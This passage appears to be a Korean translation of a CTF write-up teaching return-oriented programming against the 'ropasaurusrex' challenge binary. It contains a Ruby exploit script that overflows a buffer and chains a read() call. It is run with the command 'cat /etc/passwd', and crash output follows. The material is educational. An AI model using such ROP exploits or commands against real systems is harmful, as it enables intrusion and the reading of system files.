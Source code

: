 익스플로잇을 이렇게 업데이트 하자 (설명은 주석에 있다):

``` ruby
$ cat sploit.rb
require 'socket'

s = TCPSocket.new("localhost", 4444)

# The command we'll run
cmd = ARGV[0] + "\0"

# From objdump -x
buf = 0x08049530

# From objdump -D ./ropasaurusrex | grep read
read_addr = 0x0804832C
# From objdump -D ./ropasaurusrex | grep write
write_addr = 0x0804830C

# Generate the payload
payload = "A"*140 +
  [
    cmd.length, # number of bytes
    buf,        # writable memory
    0,          # stdin
    0x43434343, # read's return address

    read_addr # Overwrite the original return
  ].reverse.pack("I*") # Convert a series of 'ints' to a string

# Write the 'exploit' payload
s.write(payload)

# When our payload calls read() the first time, this is read
s.write(cmd)

# Clean up
s.close()
```

공격 대상에 실행해 보자:

``` sh
ron@debian-x86 ~ $ ruby sploit.rb "cat /etc/passwd"
```

그리고 크래시를 일으키는 걸 확인해라:

``` sh
listening on [any] 4444 ...
connect to [127.0.0.1] from debian-x86.skullseclabs.org [127.0.0.1] 53456
Segmentation fault (core dumped)
```

그게 `read()`의 반환 주소(`0x43434343`)에서 크래시를 일으켰고 명령어를 메모리 `0x08049530`에 썼다는 걸 확인해라:


[SkullSecurity]: https://blog.skullsecurity.org
[Ron Bowes]: https://blog.skullsecurity.org/author/ron
[external-url]: https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming
[hindsight]: http://knowyourmeme.com/memes/captain-hindsight
[cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[ROP]: https://en.wikipedia.org/wiki/Return-oriented_programming
[my writeup of cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[return into libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[DEP]: https://en.wikipedia.org/wiki/Data_Execution_Prevention
[return]: https://en.wikipedia.org/wiki/Return_statement
[stack]: https://en.wikipedia.org/wiki/Call_stack
[my assembly tutorial]: https://blog.skullsecurity.org/wiki/index.php/The_Stack
[^1]: 링크가 [바뀌었다](https://wiki.skullsecurity.org/Assembly).
[Stack overflows]: https://en.wikipedia.org/wiki/Stack_overflow
[removed by the calling function]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
[except when they're not]: https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall
[Book of Intel]: http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html
[little endian]: https://en.wikipedia.org/wiki/Endianness
[0]: https://en.wikipedia.org/wiki/Zero_page
[pattern_create.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_create.rb
[pattern_offset.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_offset.rb
[xinetd]: https://en.wikipedia.org/wiki/Xinetd
[netcat]: https://en.wikipedia.org/wiki/Netcat
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[stdin and stdout]: https://en.wikipedia.org/wiki/Standard_streams
[socket]: https://en.wikipedia.org/wiki/Network_socket
[.data]: https://en.wikipedia.org/wiki/Data_segment
[core dump]: https://en.wikipedia.org/wiki/Core_dump